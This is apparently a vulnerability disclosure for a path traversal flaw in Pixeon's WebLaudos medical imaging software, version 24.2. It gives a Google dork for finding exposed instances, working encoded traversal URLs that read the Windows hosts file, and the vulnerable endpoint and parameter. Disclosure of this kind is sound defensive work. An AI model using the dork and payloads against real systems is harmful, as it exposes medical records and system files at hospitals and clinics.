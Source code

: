 # Directory Traversal

### Product Description:
The WebLaudos software developed by Pixeon is a system that manage, and share medical images that can be accessed by doctors or patients.
	
### Vulnerability Description:
A path traversal attack (also known as directory traversal) was discovered in the WebLaudos software. This vulnerability allows an attacker to access files and directories stored outside the web root folder. By manipulating the id parameter in the URL using “dot-dot-slash (../)” sequences and their variations or by using absolute file paths, an attacker may be able to access arbitrary files and directories on the file system, including system files.

### Vulnerability Type:
CWE-35: Path Traversal

### Example vulnerable URL 
To find vulnerable hosts, you can use the following Google Dork:<br>
```intitle:"WebLaudos"```
<br><br>
The first directories are customizable, so here are three examples of vulnerable URLs: <br>
https://example.com/laudo/multimagem/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br><br>
https://example.com/web_laudos/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br><br>
https://example.com/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br>
	
### Vendor:
Pixeon
	
### Affected Product:
WebLaudos — 24.2 (04)
	
### Affected Component:
Endpoint: https://example.com/laudo/multimagem/img/img-cache.asp <br>
Parameter (GET): id <br>
Example payload: ..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts

### Attack Vector:
Remote
	
### Code Execution:
No
	
### Attack Vector:
Attackers can escape outside of the restricted location to access files or directories that are elsewhere on the system.
	
### Reference:
https://cwe.mitre.org/data/definitions/35.html <br>
https://cwe.mitre.org/data/definitions/22.html <br>
https://owasp.org/www-community/attacks/Path_Traversal <br>
	
### Discoverer:
Kauan Akyra (Ak7r4) | kakyra@intruderlabs.com.br
